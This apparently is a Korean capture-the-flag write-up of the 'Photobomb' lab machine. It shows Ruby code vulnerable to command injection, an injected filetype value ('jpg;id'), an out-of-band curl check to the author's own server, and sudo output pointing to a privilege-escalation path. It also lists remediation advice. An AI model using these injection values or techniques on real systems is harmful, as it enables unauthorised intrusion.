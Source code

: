 ~~~ruby
command = 'convert source_images/' + photo + ' -resize ' + dimensions + ' resized_images/' + filename
puts "Executing: #{command}" //
system(command)

command = convert source_images/glasses.jpg -resize 10x10 resized_images/glasses_10x10.png
~~~

command 파라미터를 검증하는 로직이 보이지 않습니다.
만약에  command 명령을 통해 서버에서 이미지가 resized가 되는 과정에서 
<span style="color:#9999FF">filetype 파라미터에 jpg;id</span>를 넣게 된다면 command injection이 발생합니다. 


리눅스에서 ;은 앞의 명령실행 후 뒤에 명령(id)를 실행을 하게 됩니다.

취약점 명령어 실행의 결과를 웹에서 쉘 실행 결과를 받아볼 수 가 없기 때문에 블라인드에선 찾기가 힘들꺼 같습니다.. 이런 경우 <span style="color:#9999FF">curl {내 서버} </span>로 요청을 보내 응답을 받았다면 쉘 명령이 실행되었음을 판단 할 수 있습니다. 

### 보안 대책
해당 취약점의 보안 대책으로는 다음과 같다고 생각합니다.
- 입력값 유효성 검사(화이트리스트 방식)을 통해 서버에서 명령어가 실행되지 않도록 조치 
- 특수문자 및 파이프라인(|, &, ;등)이 입력값에 포함되어 있지 않는지 검사 및 필터링 조치 


## Privilege escalation
 
sudo -l 설명은 아래와 같습니다.

~~~
list user's privileges or check a specific command; 
use twice for longer format

사용자의 권한을 나열하거나 특정 명령을 확인합니다.
~~~


sudo -l 결과는 다음과 같습니다.
 ~~~bash
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
 ~~~
 
 cat /opt/cleanup.sh 명령어로 sh 파일 내용을 확인합니다.
 ~~~bash
 wizard@photobomb:~$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
 ~~~
 